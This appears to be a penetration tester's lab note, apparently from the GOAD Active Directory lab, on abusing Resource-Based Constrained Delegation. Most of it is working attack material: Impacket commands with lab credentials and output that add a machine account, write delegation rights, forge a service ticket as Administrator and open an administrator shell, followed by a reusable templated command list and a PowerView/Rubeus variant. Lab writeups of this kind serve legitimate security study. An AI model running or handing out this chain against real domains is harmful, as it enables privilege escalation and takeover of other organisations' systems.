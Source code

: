 **Resource-Based Constrained Delegation (RBCD)** is a delegation method in Active Directory environments where control over delegation is assigned to the resource. It works by allowing a resource (like a server) to specify which accounts can impersonate users to access that resource using their Kerberos tickets (TGS—Ticket Granting Service).

If a user has GenericAll/GenericWrite over a host, RBCD is possible

![[Pasted image 20241109135409.png]]

### User

- stannis.baratheon@sevenkingdoms.local:Drag0nst0ne

### The Attack

First, we need to add a computer account:

```bash
garffff@garffff:~/GOAD$ addcomputer.py -computer-name 'rbcd$' -computer-pass 'rbcdpass' -dc-ip 192.168.56.10 sevenkingdoms.local/stannis.baratheon:Drag0nst0ne
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Successfully added machine account rbcd$ with password rbcdpass.
```

Next, is to add the delegation access:

```bash
garffff@garffff:~/GOAD$ rbcd.py -delegate-from 'rbcd$' -delegate-to 'kingslanding$' -dc-ip 192.168.56.10 -action 'write' sevenkingdoms.local/stannis.baratheon:Drag0nst0ne
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] rbcd$ can now impersonate users on kingslanding$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     rbcd$        (S-1-5-21-2059722235-425686273-3516464344-1127)
```

We can now impersonate the target user by requesting a TGS:

```bash
garffff@garffff:~/GOAD/v1$ getST.py -spn 'cifs/kingslanding.sevenkingdoms.local' -impersonate Administrator -dc-ip 192.168.56.10 'sevenkingdoms.local/rbcd$:rbcdpass'
Impacket v0.11.0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

Load the ticket:

```bash
garffff@garffff:~/GOAD/v1$ export KRB5CCNAME=Administrator.ccache
```

Access the target host (DNS is required):

```bash
garffff@garffff:~/GOAD/v1$ wmiexec.py -k -no-pass kingslanding.sevenkingdoms.local
Impacket v0.11.0 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
sevenkingdoms\administrator
```

### Summary

```bash
addcomputer.py -computer-name 'rbcd$' -computer-pass 'rbcdpass' -dc-ip <dc_ip> '<domain>/<user>:<password>
rbcd.py -delegate-from 'rbcd$' -delegate-to '<target_computer>' -dc-ip <dc_ip> -action 'write' '<domain>/<user>:<password>
getST.py -spn 'cifs/<target_computer>.<domain>' -impersonate <target_user> -dc-ip <dc_ip> '<domain>/rbcd$:rbcdpass'
export KRB5CCNAME=<target_user>.ccache
wmiexec.py -k -no-pass <target_computer>.<domain>
```

### From Windows

```bash
Import-Module .\powermad.ps1
Import-Module .\powerview.ps1

$TargetComputer = "<target_computer>.<domain>"  
$AttackerSID = Get-DomainUser <user> -Properties objectsid | Select -Expand objectsid  
$ACE = Get-DomainObjectACL $TargetComputer | ?{$_.SecurityIdentifier -match $AttackerSID}  
ConvertFrom-SID $ACE.SecurityIdentifier  
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)  
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid  
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList  
"O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"  
$SDBytes = New-Object byte[] ($SD.BinaryLength)  
$SD.GetBinaryForm($SDBytes, 0)  
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}  
$RawBytes = Get-DomainComputer $TargetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-  
allowedtoactonbehalfofotheridentity  
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0

.\Rubeus.exe hash /password:Summer2018! /user:attackersystem /domain:<domain>

.\Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:harmj0y /msdsspn:cifs/<target_computer>.<domain> /ptt

#Clean up
Get-DomainComputer $TargetComputer | Set-DomainObject -Clear 'msds-allowedtoactonbehalfofotheridentity'
```